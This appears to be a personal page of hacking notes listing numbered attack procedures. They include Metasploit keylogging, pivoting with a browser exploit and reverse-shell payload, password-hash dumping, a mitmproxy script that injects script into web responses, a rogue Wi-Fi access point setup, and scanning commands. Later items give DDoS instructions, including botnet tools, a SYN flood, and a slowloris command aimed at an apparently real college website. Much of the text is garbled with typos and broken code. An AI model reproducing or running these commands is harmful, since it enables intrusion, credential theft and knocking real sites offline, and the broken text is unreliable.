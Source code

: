 32. Keylogger in Metasploit framework > sysinfo > ps > grtpid > metigate 772 > getpid > keyscan start > keyscan dump > background > search lockout > sessions -i > set sessions 1 > Use Metasoploit > show options > set PID 1504 > exploit .
33. Pivoting > use exploit/windows/browser/ms10_002_aurora > show options > set URLPATH >set payload windows/metwrpreter/reverse_tcp > set LHOST > exploit -j > sessions -l 1 > # > run autoroute -h > run autoroute -s <session> > run autoroute -p > getsystem > run hashdump > use auxiliary/scanner/portscan/tcp > show options > set RHOST , RPORT, THREADS > run > use exploit/windows/smb/psexec > show options > do all .
34. MITM Proxy : install https://mitmproxy.org/ -- mitmproxy, mitmdump, mitmweb > script.py >> #!/usr/bin/python \n import mitmproxy /n def response(flow): print(f**\*\***\*\***\*\***\_\_**\*\***\*\***\*\***CONTENTS OF THE FLOW**\*\*\*\***\_\_\_**\*\*\*\***AnFlow.response.content)\n") > Save > ./mitmdump -s script.py > || > script.py >> #!/usr/bin/python \n from mitmproxy import http; def response(flow: http.HTTPFlow) -> None: flow.response.content = flow.response.content.replace(b"</body>", b'</body><script>alert("checking xss")</script>') > ./mitmdump -s script.py
35. Custom script and common Attacks : ping 198.168.56.101 -c 1 > ip.txt > cat ip.txt > create file ipsweep.sh > #!/bin/bash \n for ip in seq 1 254; do \n ping -c 1 $1.$ip | grep "64 bytes" | cut -d .. -f4tr-d":" & \n done > ./ipsweep.sh 198.168.56.101 > iplist.txt > use some nmap scripts .
36. Reconnaissance : active & passive
37. Rogue Access Point Start & Setup : sudo apt update && sudo apt install -y aircrack-ng hostapd dnsmasq && sudo airmon-ng start wlan0 && sudo systemctl stop NetworkManager && echo -e "interface=wlan0\ndriver=nl80211\nssid=FakeAP\nhw_mode=g\nchannel=6\nwmm_enabled=0\nmacaddr_acl=0\nauth_algs=1\nignore_broadcast_ssid=0\nwpa=2\nwpa_passphrase=your_password\nrsn_pairwise=DISABLED" | sudo tee /etc/hostapd/hostapd.conf && sudo hostapd /etc/hostapd/hostapd.conf & echo -e "interface=wlan0\ndhcp-range=192.168.1.50,192.168.1.150,255.255.255.0,24h" | sudo tee /etc/dnsmasq.conf && sudo dnsmasq -C /etc/dnsmasq.conf && sudo sysctl -w net.ipv4.ip_forward=1 && sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE && sudo iptables -A FORWARD -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT && sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT >> Stopping the Rogue Access Point : sudo systemctl start NetworkManager && sudo airmon-ng stop wlan0mon && sudo killall hostapd dnsmasq
38. Use airgeddon tool (IMP)
39. Use of Vertual Machine
40. use iproute2 && macchanger use to change mac address
41. Network Scanning Tools : Nessus vulnerability scanner , Skipfish , vega , Nmap Script Engine(NSE), Metasploit Auxilary Module , OWASP Zap .
42. Techniques to Search vulnerability : traceroute www.google.com , hping3 --scan 80/444 -S -t 11 www.google.com
43. Tools Used for Scanning : ping 198.168.56.101 , nmap -sP -v 198.168.56.101, nmap -sP -PE -PA21,23,80,3389 198.168.56.101, hping3 -c l -V -p 80 -s 5050 -A 192.168.56.101 (if no feedback that is IDS is there), hping3 -l 198.168.56.101 (Learn Nmap and Hping3)
44. nikto -h 198.168.56.101 -p 80 -w niktoresult -F txt
45. Nmap Demonstration : Read all Documentation of Nmap .
46. Angry IP and Nmap Demonstration : nmap 198.168.56.101 --script default,safe -v -o ram -sV > nmap -vvv --script=banner 198.168.56.101, nmap -Pn -script=http-xssed 198.168.56.101 , nmap -Pn --script=http-xssed 198.168.56.101, nmap -Pn --script=http-sitemap-generator 198.168.56.101, nmap -v --script "http-\*" 198.168.56.101, nmap -n -Pn -p 80 --open -sV -vvv --script banner,http-title -iR 100 , nmap -Pn --script=dns-brute 198.168.56.101
47. Netcat : nc 198.168.56.101 4444 > nc.txt
48. hping3 : hping3 -1 -c 5 198.168.56.101 ,
49. Firewalk : sudo apt install firewalk > sudo firewalk -S 1-8081 -i eth0 -n -p TCP 192.168.56.1 192.168.56.101
50. Finding Subdomains using Knock > https://github.com/guelfoweb/knock.git > it will show all subdomain and much more .
51. Automated Vulneribility Scanning Tools : Nessus, Skipfish, VEGA
52. Detail info aboute Routing Table > route print
53. Armitage > it is very usefull tool > run by following commd > armitage
54. metasploit GUI Community : it very important to scan and get vulneribilities and exploits also > downlode it and use properly.
55. DOS & DDOS Perfrom Tool > LOIC : A network stress testing application
56. Ping of Death Attack : ping -h > ping google.com > much more .
57. create Zombii computers , botnets much more .
58. DDoS Using Botnet Tool : https://github.com/epsylon/ufonet.git > downlode and Use .
59. Slow Loris DDoS Attack : https://github.com/0xc0d/Slow-Loris.git and https://github.com/gkbrk/slowloris.git > downlode and Use it properly it used for website down by attack > by following commands > python slowloris.py https://rgcc.ac.bd -s 500 > by this commmd all website go down .
60. Dos & DDoS Attack Perform using hping3 > hping3 --flood -S --rand-source 192.168.56.101